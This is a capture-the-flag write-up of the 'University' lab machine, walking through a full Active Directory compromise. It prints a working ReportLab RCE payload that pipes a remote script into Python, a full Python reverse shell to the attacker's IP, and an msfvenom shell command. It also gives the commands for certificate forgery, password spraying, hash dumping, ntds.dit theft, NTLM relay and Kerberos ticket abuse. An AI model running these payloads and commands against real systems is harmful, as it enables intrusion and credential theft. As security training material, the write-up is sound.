


University
University was an excellent insane-difficulty Active Directory machine that demonstrated a comprehensive attack chain involving web application exploitation, certificate forgery, lateral movement, and privilege escalation through backup operators group abuse. The initial foothold was achieved through exploiting CVE-2023-33733 in ReportLab's PDF generation functionality, where malicious Python code injected into the bio field enabled remote code execution and established a reverse shell as the web application user.
The attack progressed through credential discovery in automated backup scripts, revealing the password 'WebAO1337' for the wao user, enabling WinRM access to the domain controller. Network pivoting using ligolo-ng revealed additional machines in the 192.168.99.0/24 subnet, including WS-3 (a vulnerable Windows workstation) and LAB-2 (a Linux machine), both accessible with the same wao credentials.
A critical pivot point involved forging professor certificates using compromised CA files found on the domain controller. By generating a certificate signing request for the 'george' professor account and signing it with the extracted rootCA.crt and rootCA.key, I gained elevated web application access. This enabled uploading malicious lecture files containing URL shortcuts pointing to local executables, achieving code execution on WS-3 when the automated get-lectures script processed the content.
The final escalation leveraged LocalPotato (CVE-2023-21746) to achieve administrator privileges on the outdated WS-3 workstation, enabling extraction of registry hives that revealed Martin.T's default domain password 'v3ryS0l!dP@sswd#X'. Password spraying identified many users with the default password set, among which was Brose.W, who belonged to the Backup Operators group with SeBackupPrivilege. Using diskshadow to create volume snapshots and robocopy in backup mode, I extracted the domain controller's SAM, SYSTEM, and ntds.dit files, ultimately obtaining the administrator hash and achieving full domain compromise.
User flag
There are quite a few ports open on this machine, and judging by the services, it's most likely a domain controller. There is also a website on port 80.
Exploring the website
To freely browse the website, I need to create an account. I can make a student one or a professor one.

But it seems like I won't be able to create a professor account right now. I'll focus on the other option.
After successfully creating the account, the cert request option on the left intrigued me.
Certificates can be used as an alternative way to login to the website.
If I manage to create, or get ahold of, a professor account, I'll be able to upload files onto the target. I'll keep this in my mind for later.
Browsing through the course list, I noted down the professor names for later use.
nya
martin.rose
Nour
carol
george
RCE via reportlabs CVE
Back in the profile page, I can export the profile as a PDF.
Running strings against the PDF reveals that it was generated with ReportLab, which is a Python PDF generation library.
I searched for CVEs affecting ReportLabs, and I found something promising.
https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897
https://github.com/c53elyas/CVE-2023-33733
The bio field looks like an appropriate target for this attack.
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl http://10.10.16.45:8000/shell.py | python') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"></para>
This payload will attempt to download a shell.py file from my box, which will contain this reverse shell:
import os,socket,subprocess,threading;
def s2p(s, p):
while True:
data = s.recv(1024)
if len(data) > 0:
p.stdin.write(data)
p.stdin.flush()
def p2s(s, p):
while True:
s.send(p.stdout.read(1))
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.45",9001))
p=subprocess.Popen(["powershell"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)
s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()
p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()
try:
p.wait()
except KeyboardInterrupt:
s.close()
Nothing happened after I clicked submit, but a few seconds after I pressed the export button, I got a hit on my python server.
And then, on my listener.
Exploring the DC
In the landing folder, I found two interesting things.
The database, and a CA folder which contained the root CA's. I could use them to forge professor certificates and login if they have not been revoked.
Since this DC has python installed, I'll exfiltrate the files by using an http server.
python -m http.server
And then pulling each file onto my box.
curl 10.10.11.39:8000/CA/rootCA.crt -o rootCA.crt
curl 10.10.11.39:8000/db.sqlite3 -o db.sqlite3
The only interesting thing in the database is the professor's public key format. If I'd want to use a forged key, I'll probably have to convert it to an ASCII armored one first.
Continuing my enumeration, I found a db-backup-automator.ps1 script in the DB Backups directory.
$sourcePath = "C:\Web\University\db.sqlite3"
$destinationPath = "C:\Web\DB Backups\"
$7zExePath = "C:\Program Files\7-Zip\7z.exe"
$zipFileName = "DB-Backup-$(Get-Date -Format 'yyyy-MM-dd').zip"
$zipFilePath = Join-Path -Path $destinationPath -ChildPath $zipFileName
$7zCommand = "& `"$7zExePath`" a `"$zipFilePath`" `"$sourcePath`" -p'WebAO1337'"
Invoke-Expression -Command $7zCommand
Which contained a password. Since my current user is wao, and their name is included in the password, it may allow me to login to the box as them.
evil-winrm -i 10.10.11.39 -u wao -p WebAO1337
This will allow me to skip the ReportLab RCE step, like a checkpoint.
Setting up a ligolo tunnel
I looked around the DC for more information and found out that the DC had access to an additional subnet.
I'd like to scan it for any machines that may be reachable from the DC. I will transfer a ligolo agent onto the target, then I'll create a tunnel through which I will scan the subnet with nmap, and any machines it finds as well.
After transferring the agent, I need to run a few commands in order to create a tunnel between my machine and the DC.
sudo ip tuntap add user kalin mode tun ligolo | Adds a new interface
sudo ip link set ligolo up | Enables the interface
sudo ip route add 192.168.99.0/24 dev ligolo | Adds a route to the target subnet
After that, I can run ligolo-proxy -selfcert on my machine, and .\agent.exe -connect 10.10.16.45:11601 -ignore-cert on the DC.

Initially, I wanted to scan the whole subnet with nmap. However, this would cause my ligolo session to die after a minute or so, which made me switch to a different approach.
I'll reuse a simple FOR loop from the Reddish machine to scan the subnet for active machines.
for i in $(seq 1 256); do ping -c 1 192.168.99.$i; done
There were 3 hits. 192.168.99.1(the DC), 192.168.99.2 and 192.168.99.12.
Now that I have the singular IPs, I can use nmap to scan them one by one.
192.168.99.2 is a windows machine:
And 192.168.99.12 is a linux box with SSH enabled:

Enumerating the other machines
I checked whether wao's login would work on the discovered machines.
First, the windows machine.
I can login to the WS-3 workstation as wao.
And into the linux machine, LAB-2, as well.
Examining the LAB-2 machine
The only interesting thing on the LAB-2 machines were root certificates.
Which I downloaded onto my machine via scp.
scp wao@192.168.99.12:/home/wao/Downloads/CA/rootCA.crt lab2certs/
These were identical to the ones found on the DC. Not much else, but the machine can reach WS-3 directly, which could come in handy later.
Examining the WS-3 machine
In C:\Users\wao\Desktop, I found a README.txt note.
Hello Professors.
We have created this note for all the users on the domain computers: WS-1, WS-2, and WS-3.
These computers have not been updated since 10/29/2023.
Since these devices are used for content evaluation purposes, they should always have the latest security updates.
So please be sure to complete your current assessments and move on to the computers "WS-4" and "WS-5".
The security team will begin working on the updates and applying new security policies early next month.
Best regards.
Help Desk team - Rose Lanosta.
This workstation may be vulnerable to one or more of the older exploits. The scope will become clearer once I find something exploitable.
In C:\program files\Automation-Scripts\, I found two powershell scripts which I cannot read.
The get-lectures script makes me think back to the professor accounts on the website, so I'll change my focus to that.
Forging a professor certificate
I'll create a certificate signing request(.csr) and a key file(.key) with the command mentioned in the request signed-cert menu earlier.
openssl req -newkey rsa:2048 -keyout george.key -out george.csr
I'll set the common name to george, and the email address to george@university.htb
After that, I can sign the request with the rootCA's I've gathered earlier. I'll use the ones I got from the DC.
openssl x509 -req -in george.csr -CA certs/rootCA.crt -CAkey certs/rootCA.key > george.crt
I should be able to login as george with this certificate.
Uploading a malicious lecture
After going to manage my courses, clicking learn more on any of them, and navigating to add a new lecture, I came across the lecture upload form.
It requires a gpg signature, but I don't even have a key yet. Before doing anything with that, I'll download the lecture sample zip to see how the files should be structured.
# Referece-1.url
[InternetShortcut]
URL=http://site1.reference.com
IDList=
It is possible to point the link to a local file on the system. For example:
[InternetShortcut]
URL=file://C:/programdata/shell.exe
IDList=
Will execute shell.exe instead of opening an online reference. Since the get-lectures script is located on WS-3, I will place a reverse shell there once everything is ready.
Creating a PGP key
I generated a PGP key with gpg --generate-key, once again providing the username george and the email address of george@university.htb
I'll extract a public key from this new creation, so that I can update it on the website. Otherwise, I will not be allowed to upload lectures signed with my new key.
gpg --export -a "george" > GPG-public-key.asc
Setting up for the reverse shell
Since the LAB-2 machine can access the WS-3 machine directly, I will point the reverse shell to connect back to a listener on LAB-2. This way I will avoid any issues stemming from the tunnel and possible blockades/firewall rules.
In the case that it does not have netcat installed, I will use a python script to capture the revshell.
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.12 LPORT=9001 -f exe > shell.exe
I created an .exe shell with msfvenom, which will be placed on WS-3 under C:\programdata\shell.exe
Because I've updated the public key on the website, I can now use a detached signature like in the example, and it should be accepted.
gpg -u george --detach-sign lecture.zip
This will generate a lecture.zip.sig file, which I'll send alongside the zipped lecture.
I stood up a netcat listener on LAB-2, and submitted the lecture.

And not long after that, I received a hit on my listener.
Root flag
I will use the Windows Management Instrumentation Command-line to get the latest updates installed on WS-3. This will give me a rough idea of which exploits it could be vulnerable to.
This machine has not been updated at all since November 2022.
Shell as administrator on WS-3
A bit of searching brought me to https://github.com/decoder-it/LocalPotato, which could allow me to overwrite the other script in the automation directory.
I downloaded the .exe and used a simple ps1 reverse shell to overwrite the wpad-cache cleaner script.
.\LocalPotato.exe -i rev.ps1 -o "\Program Files\Automation-Scripts\wpad-cache-cleaner.ps1
After waiting for approximately 10 minutes, I finally got a shell back.
Downloading the registry hives from WS-3
I immediately saved the hives in order to avoid having to redo these administrator steps in case the shell died. Now I can download them.
However, while I managed to download the sam hive without issues, the system hive was too big and kept breaking my tunnel. I zipped it with tar to decrease its size.
tar -a -c -f system.zip system
This was too big as well. I pivoted to splitting the zipped hive into 1MB chunks, which should download without any issues.
$filePath = 'C:\programdata\system.zip'; $chunkSize = 1MB; $in = [System.IO.File]::OpenRead($filePath); try { $i = 0; while ($in.Position -lt $in.Length) { $outPath = "{0}.{1:d4}" -f $filePath, $i; $out = [System.IO.File]::OpenWrite($outPath); $buffer = New-Object byte[] $chunkSize; $read = $in.Read($buffer, 0, $buffer.Length); $out.Write($buffer, 0, $read); $out.Close(); $i++ } } finally { $in.Close() }
After downloading each of the chunks, I'll assemble the zipped hive.
cat system.zip.* > system.zip
Then I'll unzip the archive, which contains the exact same system hive as the one left on the WS-3 machine.

Now I can take both of the hives and use impacket-secretsdump locally to extract the stored hashes.
impacket-secretsdump local -system system -sam sam

Getting more information by using remote secretsdump
This did not reveal much besides the administrator's hash. I'll try to get more info by performing a remote secretsdump, which will grab the most information from the actively used hives.
impacket-secretsdump administrator@192.168.99.2 -hashes ':ba76a28db8aaeb636566a414f3e104aa'

Martin.T/default password | v3ryS0l!dP@sswd#X
Password spray
Since I have a default password, I'd like to do a password spray to see if anyone else has an unchanged password.
First, I need an userlist. I'll create one using netexec.
nxc ldap 10.10.11.39 -u martin.t -p 'v3ryS0l!dP@sswd#X' --users
I'll save it to a userlist, and I'll use awk to grab only the usernames.
awk -F ' ' '{ print $5 }' userlist
I will remove the non-user remains manually. Then I'll spray the default password against it.
nxc ldap 10.10.11.39 -u finaluserlist -p 'v3ryS0l!dP@sswd#X' --continue-on-success
The (Pwn3d!) message means that the user can remote into the machine.
Discovering the Backup Operators group
There are too many users to manually check which ones are valuable. I'll check which groups exist in the domain, and netexec will also show how many members are in each group.
nxc ldap 10.10.11.39 -u martin.t -p 'v3ryS0l!dP@sswd#X' --groups
The Backup Operators group has one member. This group allows its members to backup sensitive files, like registry hives.
nxc ldap 10.10.11.39 -u martin.t -p 'v3ryS0l!dP@sswd#X' --groups 'Backup Operators'
Brose Wayen, or Brose.W, is the only member of the Backup Operators group. They can also remote into the box, which means that getting the hives should be very simple.
Cloning the registry hives and ntds.dit from the DC
Brose.W has the SeBackupPrivilege, so I tried to save the two hives using reg save like earlier.
The hives were smaller, and the administrator's hash I got from them did not work. This could be due to the files being locked by the OS, which blocks me from fully cloning them.
There are a few tools that can be used with SeBackupPriv to alleviate this. I will use diskshadow, but it requires a bit more preparation.
I created a simple script for diskshadow, that would clone the C: drive into a new Z: drive.
set context persistent nowriters
add volume C: alias shadow_c
create
expose %shadow_c% Z:
This fails because of the discrepancy between linux/windows when it comes to line endings.
Fixing the script
Linux/unix uses a single Line Feed character (LF) to mark the end of a line, while windows Uses a Carriage Return and a Line Feed (CRLF).
The script can be "fixed" by using unix2dos
I'll copy the converted script onto the machine, and I'll run diskshadow once again.
The script was executed successfully, and a Z: drive has been created. However, I still cannot do anything with these files.
This is because even though I made a copy, the hives can be read only by SYSTEM. With copy, my user's SeBackupPrivilege is not used as it simply tried to copy the file as Brose.W.
Copying the files with robocopy
Since my user has the privilege, I can use robocopy with the B switch to utilize it. This will run it in backup mode, which will bypass the restrictive file permissions.
robocopy Z:\Windows\System32\config C:\programdata SAM /B
robocopy Z:\Windows\System32\config C:\programdata SYSTEM /B
And since this is a domain controller, I'll grab the ntds.dit file as well.
robocopy Z:\Windows\NTDS C:\programdata ntds.dit /B
Extracting hashes from the DC hives with secretsdump
With all of the files on my box, I can use secretsdump once again to extract the hashes of every user on the domain.
impacket-secretsdump LOCAL -sam SAM -system SYSTEM -ntds ntds.dit
This administrator hash is different, so I'll try logging into the machine with it.
evil-winrm -i 10.10.11.39 -u administrator -H 'e63413bab01a0b8820983496c0be3a9a'
Rooted!
Intended way for root flag
After reading the official writeup for the machine, I got to know that my solution for the root part was an unintended way. Of course, I will not be removing my original completion, as I still learned a lot from it and it contains many valuable steps and notes.
Instead, I will redo the root step as intended, starting with enumerating the 2 non-DC computers.
Enumerating the joined machines
During my completion, I did not enumerate the attributes of WS-3 because my eyes were set on other goals. After getting onto the box, I found the two automation scripts and immediately pivoted to uploading the malicious lecture, stopping the enumeration there.
If I continued my standard enumeration process, I would find a clue towards the intended way to solve this box.
The WS-3 machine has its TrustedForDelegation attribute set to true. This means that it holds kerberos tickets of users who interacted with it/logged into it. With administrative access, these can be collected via mimikatz or rubeus to gain access to those users.
In the network config of WS-3, I can see that the IPv6 entry for the DNS servers is identical to LAB-2's IPv6 address.
WS-3:
LAB-2:
Additionally, I can see that while the IPv4 address is static(DHCP enabled: no + static IP set), the IPv6 is dynamic(Autoconfiguration enabled: Yes). Since the WS-3 machine will use the LAB-2 machine as its DNS server for IPv6 DNS lookups, I'll be able to poison it and potentially execute an NTLM relay attack if the machine tries to authenticate to LAB-2.
Investigating the WPAD automation script
When taking a look at the automated scripts, during my initial completion, I just saw an opportunity to get an elevated shell via swapping the wpad cache cleaner script. I did not think too much of what it was used for, but it plays a big role in the machine's intended solution.
WPAD (Web Proxy Auto-Discovery) is used by clients to locate the URL of configuration files via DHCP or DNS discovery. I looked for more information about WPAD on Wikipedia.
https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol
The mention of DNS/DHCP and how it works with WPAD covers the network configuration of WS-3. Since there is a cleaner script running automatically, it's safe to assume that the WS-3 machine is using WPAD.
Since DHCPv4 is disabled on WS-3 and DHCPv6 does not have a WPAD option defined, it will default to DNS, for which the LAB-2 machine will be preferred first.
If I can add a WPAD record pointing to LAB-2, I'll be able to hijack the query and perform an NTLM relay attack to act as the WS-3 machine account.
NTLM relay attack against WS-3
I will need 2 tools for this attack. Mitm6 to poison the DNS, and ntlmrelayx to relay the credentials of WS-3 to the DC.
Before that, though, I need to create a new computer account. Computer accounts have an SPN set by default, so it'll be easier to request service tickets once I'm done with the relaying.
impacket-addcomputer -computer-name hexicon -computer-pass hexicon -dc-host DC.university.htb -dc-ip 10.10.11.39 university.htb/wao:WebAO1337
I downloaded and transferred mitm6 onto the LAB-2 machine using scp.
https://github.com/dirkjanm/mitm6
scp -r mitm6 wao@192.168.99.12:/home/wao/
Now that I have both of the tools, I can perform the attack.
First, I'll run ntlmrelayx.py on LAB-2. It needs root privileges, so I'll use sudo su to get a root shell before doing that.
ntlmrelayx.py -ts -t ldap://192.168.99.1 -wh test -6 --no-da --escalate-user hexicon$ --delegate-access
On a different LAB-2 shell, I'll run mitm6.
python3 mitm6/mitm6.py -d university.htb -i eth0
After waiting for approximately 14 minutes, WS-3 makes an attempt to reach wpad.university.htb, which is caught and spoofed by mitm6.
And then hijacked by ntlmrelayx.
If there were no automated scripts, I still could make the WS-3 machine authenticate back to the LAB-2 machine.
https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/
This article contains a lot of useful information about delegation attacks.
Getting a system shell on WS-3
My malicious computer account, hexicon$, is now able to request service tickets on behalf of other users. I will request a ticket for CIFS on WS-3 as administrator, which will allow me administrative access to the machine.
impacket-getST -spn cifs/WS-3.university.htb -impersonate administrator -dc-ip 10.10.11.39 university.htb/'hexicon$':hexicon
To quickly create a config file for kerberos, I used this guide.
https://notes.benheater.com/books/active-directory/page/kerberos-authentication-from-kali
With an administrator CIFS service ticket, I can use impacket's psexec to get a system shell on the box, as the dropped file will be executed via a system service.
impacket-psexec -k -no-pass -dc-ip 10.10.11.39 -target-ip 192.168.99.2 university.htb/administrator@WS-3.university.htb
Dumping cached kerberos tickets with Rubeus
I uploaded Rubeus onto the box using an evil-winrm session as wao. I will use it to dump any cached kerberos tickets.
.\Rubeus.exe dump /nowrap
There were tickets for Martin.T, administrator, and the WS-3 machine account, which didn't interest me at this point.
However, after a while, I saw a different ticket moving past my screen.
This is a TGT of Rose.L, an user I've not seen before. I'll take this base64-encoded ticket and I'll copy it onto my box.
Before using this ticket, I need to convert it into a .ccache file so that it'll be compatible with my usual tools.
impacket-ticketConverter roseltgt.kirbi rosel.ccache
After exporting the .ccache ticket, I will try to remote into the DC as Rose.L.
Reading the GMSA password of GMSA-PClient01
Looking at the bloodhound output, the helpdesk group can read the GMSA password of GMSA-PClient01, which is then allowed to act as the DC, essentially allowing me to impersonate anyone on the domain controller.
Because LDAPS is not configured/unavailable, I will have to read it from within the DC itself. I downloaded GMSAPasswordReader.exe from the SharpCollection.
https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
After uploading the tool via evil-winrm, I ran it against the GMSA account.
.\GMSAPasswordReader.exe --accountname 'GMSA-PClient01$'
GMSA-PClient01$ | 6D364C74FF11B3BCE0BC41C097BF55C8
Getting a system shell on the DC
The GMSA account can act as the DC, meaning I can impersonate any domain user on the domain controller.
First, I need a ticket for the GMSA-Pclient01 account.
impacket-getTGT -hashes ':6D364C74FF11B3BCE0BC41C097BF55C8' -no-pass -dc-ip 10.10.11.39 university.htb/'GMSA-PClient01$'

With this ticket, I can request a service ticket for administrator just like in the earlier steps.
impacket-getST -spn CIFS/DC.university.htb -hashes ':6D364C74FF11B3BCE0BC41C097BF55C8' -no-pass -impersonate administrator -dc-ip 10.10.11.39 university.htb/'GMSA-PClient01$'
Finally, I can use psexec to get a system shell on the domain controller.
impacket-psexec -k -no-pass -dc-ip 10.10.11.39 -target-ip 10.10.11.39 university.htb/administrator@DC.university.htb
Rooted! (The intended way)